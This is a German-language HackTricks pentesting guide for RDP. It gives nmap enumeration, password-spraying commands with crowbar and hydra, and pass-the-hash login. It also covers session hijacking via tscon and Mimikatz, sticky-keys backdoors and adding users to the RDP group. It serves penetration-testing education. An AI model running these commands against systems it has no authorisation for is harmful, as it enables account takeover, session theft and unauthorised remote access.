 # 3389 - Pentesting RDP

{{#include ../banners/hacktricks-training.md}}


## Grundlegende Informationen

Entwickelt von Microsoft, ist das **Remote Desktop Protocol** (**RDP**) darauf ausgelegt, eine grafische Schnittstellenverbindung zwischen Computern über ein Netzwerk zu ermöglichen. Um eine solche Verbindung herzustellen, wird von dem Benutzer Software für den **RDP**-Client verwendet, während der entfernte Computer gleichzeitig Software für den **RDP**-Server betreiben muss. Diese Konfiguration ermöglicht die nahtlose Steuerung und den Zugriff auf die Desktop-Umgebung eines entfernten Computers, wodurch dessen Schnittstelle im Wesentlichen auf das lokale Gerät des Benutzers gebracht wird.

**Standardport:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Aufzählung

### Automatisch
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
Es überprüft die verfügbaren Verschlüsselungen und DoS-Schwachstellen (ohne DoS für den Dienst zu verursachen) und erhält NTLM Windows-Informationen (Versionen).

### [Brute force](../generic-hacking/brute-force.md#rdp)

**Sei vorsichtig, du könntest Konten sperren**

### **Password Spraying**

**Sei vorsichtig, du könntest Konten sperren**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Mit bekannten Anmeldeinformationen/Hash verbinden
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Überprüfen Sie bekannte Anmeldeinformationen gegen RDP-Dienste

rdp_check.py von impacket ermöglicht es Ihnen, zu überprüfen, ob einige Anmeldeinformationen für einen RDP-Dienst gültig sind:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
## **Angriffe**

### Sitzungsdiebstahl

Mit **SYSTEM-Berechtigungen** können Sie auf jede **geöffnete RDP-Sitzung eines beliebigen Benutzers** zugreifen, ohne das Passwort des Eigentümers zu kennen.

**Geöffnete Sitzungen abrufen:**
```
query user
```
**Zugriff auf die ausgewählte Sitzung**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Jetzt sind Sie in der ausgewählten RDP-Sitzung und müssen einen Benutzer nur mit Windows-Tools und -Funktionen impersonieren.

**Wichtig**: Wenn Sie auf aktive RDP-Sitzungen zugreifen, werden Sie den Benutzer, der sie verwendet hat, abmelden.

Sie könnten Passwörter durch das Dumpen des Prozesses erhalten, aber diese Methode ist viel schneller und ermöglicht es Ihnen, mit den virtuellen Desktops des Benutzers zu interagieren (Passwörter in Notepad, ohne auf der Festplatte gespeichert zu werden, andere RDP-Sitzungen, die auf anderen Maschinen geöffnet sind...)

#### **Mimikatz**

Sie könnten auch Mimikatz verwenden, um dies zu tun:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Durch die Kombination dieser Technik mit **stickykeys** oder **utilman** kannst du jederzeit auf eine administrative CMD und jede RDP-Sitzung zugreifen.

Du kannst nach RDPs suchen, die bereits mit einer dieser Techniken backdoored wurden: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Prozessinjektion

Wenn sich jemand aus einer anderen Domäne oder mit **besseren Berechtigungen über RDP** an dem PC anmeldet, an dem **du Admin bist**, kannst du dein Beacon in seinen **RDP-Sitzungsprozess** injizieren und als er handeln:

{{#ref}}
../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md
{{#endref}}

### Benutzer zur RDP-Gruppe hinzufügen
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatische Werkzeuge

- [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** ist ein Post-Exploitation-Framework, das in Powershell erstellt wurde und hauptsächlich dazu dient, den **Shadow**-Angriff auf Microsoft Windows-Computer zu automatisieren. Diese Schwachstelle (von Microsoft als Funktion aufgeführt) ermöglicht es einem Angreifer, **den Desktop seines Opfers ohne dessen Zustimmung zu sehen** und ihn sogar auf Anfrage zu steuern, indem er Werkzeuge verwendet, die nativ im Betriebssystem vorhanden sind.

- [**EvilRDP**](https://github.com/skelsec/evilrdp)
- Steuere Maus und Tastatur automatisiert über die Befehlszeile
- Steuere die Zwischenablage automatisiert über die Befehlszeile
- Erzeuge einen SOCKS-Proxy vom Client, der die Netzwerkkommunikation über RDP zum Ziel leitet
- Führe beliebige SHELL- und PowerShell-Befehle auf dem Ziel aus, ohne Dateien hochzuladen
- Lade Dateien zum/vom Ziel hoch und herunter, selbst wenn Dateiübertragungen auf dem Ziel deaktiviert sind

## HackTricks Automatische Befehle
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
{{#include ../banners/hacktricks-training.md}}
